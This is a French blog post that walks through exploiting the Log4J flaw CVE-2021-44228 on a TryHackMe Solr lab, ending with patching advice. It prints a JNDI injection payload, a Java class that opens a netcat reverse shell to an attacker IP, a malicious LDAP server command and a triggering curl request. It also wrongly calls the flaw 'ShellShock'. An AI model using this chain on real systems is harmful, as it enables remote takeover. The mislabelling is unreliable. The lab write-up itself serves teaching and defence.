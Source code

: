 ```yaml
---

layout: post

title: "Analyse de la faille Log4J"

date: 2021-12-13

categories: divers

---
```


# Diclaimer

Cet article vise à expliquer la faille de sécurite ShellShock, en aucun cas les explications données doivent être utilisées dans le but de causer des dommages à un quelconque système. Toutes les informations sont données à but de pédagogie ou de défense.

# Analyse de la faille Log4J (CVE-2021-44228)

Pas besoin d'être un professionnel du monde cyber pour avoir entendu parler de cette faille qui a créé quelques sueurs froides ces derniers jours.

Connue sous le nom de CVE-2021-44228, ou plus communément "ShellShock" de par son impact étendu, cette faille notée 10 (sur 10 !) par le scoring CVSS permet un _Remote Code Execution_ en exploitant le système de log basé sur Java : Log4J.

Je vous propose une brève analyse de cette faille. Avec tout d'abord un remerciement à John Hammond pour la création de la machine vulnérable sur TryHackMe.

Voici un bref récapitulatif de l'attaque : 

![draw (1)](https://user-images.githubusercontent.com/16634117/145877226-310dc164-e164-4cbb-9065-1027ad80f0d2.jpg)


# Reconnaissance de la faille

Cette faille se retrouve sur bon nombre d'applications, puisque Log4J est très répandue pour la gestion de logs. Pour cette attaque, je me base sur l'application Solr, qui utilise une version vulnérable de Log4J.

![2](https://user-images.githubusercontent.com/16634117/145869688-87433bd9-c133-41de-bd0d-43588d5e01a1.PNG)

Un petit tour sur l'application et on remarque rapidement que l'application Log4J est présente dans les arguments de l'application. 

Il faut maintenant savoir si cette version est vulnérable, pour ça, il faut trouver un point d'injection. Le plus simple est de jeter un œil aux logs de l'application :

![example_logs](https://user-images.githubusercontent.com/16634117/145869966-14f8f7bf-995c-470a-a6e8-dc4a334a5edb.png)

Ici, on voit clairement que les requêtes GET sont journalisées ; l'url, mais également **les paramètres**. (C'est sur ce point que l'exploit peut changer, suivant la journalisation en place, il existera des points d'injections différents : paramètres, headers HTTP, etc.)

Pour identifier la vulnérabilité du système, j'injecte un paramètre GET avec la charge utile suivante (expliquée dans la présentation de la faille) :

`${jndi:ldap://<IP>:<PORT>}`

![5](https://user-images.githubusercontent.com/16634117/145870531-750a9523-9d1c-4b0d-b523-af4b2d1e669e.png)
_L'injection, avec un listener pour récupérer la connexion, permettant de vérifier la bonne exécution de la charge utile_

Une connexion s'effectue bien entre notre machine et le serveur, **ce dernier est donc vulnérable**.

# Exploitation

Nous avons vu dans la partie précédente que l'application est vulnérable, mais, pour le moment, aucune execution de code sur le serveur n'est réalisée. 

C'est ici que la seconde partie de la faille se trouve, l'utilisation de [JNDI](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface) va permettre de faire des appels à un serveur LDAP, serveur qui peut être malicieux (possédé par l'attaquant) et donc utilisé pour rediriger vers du code malveillant en notre possession.

## Charge utile

Afin de créer un accès au serveur, on cherche simplement à créer une connexion shell, pour ça la classe Java suivante est suffisante : 

```Java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.10.65.176 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

On la compile sous le nom de `Exploit.class`

## Mise en place d'un serveur LDAP malveillant

On utilise le software [Marshalsec](https://github.com/mbechler/marshalsec) qui permet de créer un serveur LDAP et de rediriger le trafic.

La commande suivante va créer le serveur et rediriger vers notre code malveillant :

`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.65.176:8000/#Exploit"`


![image](https://user-images.githubusercontent.com/16634117/145871850-2f83e1d5-6e94-40ec-803b-c71be8fca4d6.png)

## Attaque

Une fois les éléments en place, il faut un serveur capable de répondre avec notre charge malveillante, un simple `python3 -m http.server` à la racine de notre payload fera l'affaire.

Pour récupérer le shell il faut ouvrir une connexion au niveau de la machine d'attaque :

`nc -lnvp 9999`

Tous les éléments sont en place. 

Une requête avec l'injection va déclencher toute la chaîne d'attaque : 

`curl 'http://10.10.31.65:8983/solr/admin/cores?foo=$\{jndi:ldap://10.10.65.176:1389/Exploit\}'`

Une fois cela fait :

![image](https://user-images.githubusercontent.com/16634117/145872643-ec39c7ca-e33d-4b34-8c31-a6b2ed397b09.png)
_De haut en bas et de gauche à droite : la requête malveillante, le serveur LDAP redirigeant le traffic, le serveur Python répondant avec le code compilé, le reverse shell_

On obtient bien un accès en shell au serveur, par la suite il est possible de continuer une chaîne classique d'attaque pour gagner en privilèges et corrompre une plus grande partie du système.

# Conclusion et réponse

Cette faille touche un grand nombre de système, et il y a de fortes chances que vos systèmes en fassent partie, pour vous les solutions sont les suivantes : 

* Mettre à jour Log4J,
* Désactiver le lookup JDNI.

Une liste non exhaustive des applications touchées est disponible ici : https://github.com/NCSC-NL/log4shell/blob/main/software/README.md



